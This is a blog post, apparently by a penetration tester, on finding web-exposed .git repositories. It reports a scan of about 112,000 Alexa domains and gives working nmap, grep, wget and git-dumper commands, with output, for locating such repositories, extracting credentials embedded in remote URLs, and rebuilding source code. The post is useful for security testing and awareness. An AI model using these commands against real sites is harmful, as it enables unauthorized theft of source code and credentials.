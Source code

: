 ```yaml
---
layout: post
title:  "Gathering some information from web exposed git repositories"
date:   2018-08-05
categories: web
---
```

Hello folks,  
  
Last week, while i was doing recon on some websites, i noticed that we can still found some versioning repositories in production. I found some classic **.git** exposed, and in a lesser extent some **.svn** directories. I decided to gather a bunch of websites caught in the TOP Alexa in order to look for the proportion of .git exposed; with **112332** domains scanned (mixed TLDs), i found **453** .git exposed, which is only **0.4%**. Not bad.  

How to scan for web exposed git directories:  
```nmap --open -PN -n -p80,81,82,8000,8080,443,8443,9443 --script http-git -oA http-git -iL domains.lst```  
  
*N.B: this NSE script will perform HTTP requests thanks to input FQDNs (vhosting)*  
  
Some developers may clone repository specifying their login and password as part of the url, setting this remote origin in the git configuration. For example, once your nmap done, you can spot some login:password playing with this command:  

```
$ grep -A1 Remotes http-git.nmap | grep -E ":.*:[^:]*@.*" | awk '{print $2}'
https://apixxxxxx:[redacted]@github.com/apixxxxxx/apixxxxxx.git
http://deploy:[redacted]@10.0.0.4:7990/scm/[redacted]/portal.git
...
```
  
However i was looking for other information, for example:  
 - repository's activity; last commit date for each branch
 - repo directory traversal (great to download the whole repo)
 - highlights remote url
 - displays .git/config and .gitignore files
  
Knowing a bit of a [.git repository layout](https://git-scm.com/docs/gitrepository-layout) will allow to easily retrieve this information even if you don't have any directory traversal. That's why i created a bash script gathering this information which you can find [here](https://github.com/phackt/pentest#user-content-git).  
  
![image1]({{ site.url }}/public/images/git-exposed/gittool.png)
  
If a repository seems interesting and has directory traversal and/or leaks in its remote url some credentials, you can simply download or clone the repository. For example to download the whole repo you can do the following:  
```
$ wget --recursive --no-parent http://localhost/phackt.github.io/.git/ && \
cd localhost/phackt.github.io && \
git reset --hard
```  
  
Now what happens if you didn't find any creds (most of the cases) and **directory traversal is not enabled** ? I will not reinvent the wheel and advice you to read this [article](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/) amongst others.  

```
$ curl -I http://localhost/phackt.github.io/.git/
HTTP/1.1 403 Forbidden
Date: Sat, 11 Aug 2018 17:00:04 GMT
Server: Apache/2.4.33 (Debian)
Content-Type: text/html; charset=iso-8859-1
```  
  
I gave a try to another git dumper tool:  
  
```
$ git clone https://github.com/phackt/git-dumper && cd git-dumper
$ pip install -r requirements.txt
$ ./git-dumper.py http://localhost/phackt.github.io/.git/ /tmp/repo
[-] Testing http://localhost/phackt.github.io/.git/HEAD [200]
[-] Testing http://localhost/phackt.github.io/.git/ [403]
[-] Fetching common files
[-] Fetching http://localhost/phackt.github.io/.git/COMMIT_EDITMSG [200]
[-] Fetching http://localhost/phackt.github.io/.git/description [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/commit-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-commit.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-receive.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-commit.sample [200]
...
[-] Running git checkout .
```  
  
We can now inspect our freshly rebuilt repository:  

```
$ cd /tmp/repo && ls -1
about.md
categories.md
CNAME
_config.yml
feed.xml
_includes
index.html
_layouts
POC
_posts
public
_sass
```  
  
See you soon,  
Cheers.